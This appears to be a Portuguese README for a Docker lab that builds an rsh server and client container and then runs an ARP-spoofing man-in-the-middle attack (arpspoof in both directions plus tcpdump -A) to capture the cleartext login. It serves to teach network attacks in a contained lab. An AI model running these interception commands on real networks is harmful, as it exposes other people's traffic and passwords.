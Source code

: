 # Docker setup

## maquina local

para subir os dois containers rodar
`sudo bash start.sh` \
(duas vezes na primeira vez).

> **informacao de saida usa pra preencher os containers**

- comandos uteis:\
  `docker stop <nome>` \
  `docker rm <nome>`

## containers

- criar usuario no **server**: \
  adduser \<usuario> \
  passwd \<usuario> \
  $ digita senha <senha>

- configurar no **xterm** e no **server**:\
  adicionar IP NOME remoto em /etc/hosts \
  adicionar IP NOME remoto em /root/.rhosts

**No server**

- inicializar serviço servidor

```
server@id:$ /etc/init.d/openbsd-inetd start
```

## mitm

- em localhost: `cat 1 /proc/sys/net/ipv4/ip_forward`
- logar no server pelo **xterminal**:

```
// xterminal
xterm@id:$ rsh <IP_server> -l <username>
digita a senha de <username> do server

server@id:$ while :; do echo "Press [CTRL+C] to stop";sleep 4; done
```

- em **server**

```
server@id:$ tcpdump arp
```

- em **localhost** root:\
  (`ifconfig -a` mostra info do `docker0`)

```
// em uma tab
root@localhost:$ arpspoof -i docker0 -t <IP_server> <IP_xterm>

// em outra tab
root@localhost:$ arpspoof -i docker0 -t <IP_xterm> <IP_server>

// na 3a tab
user@localhost:$ tcpdump -A
```
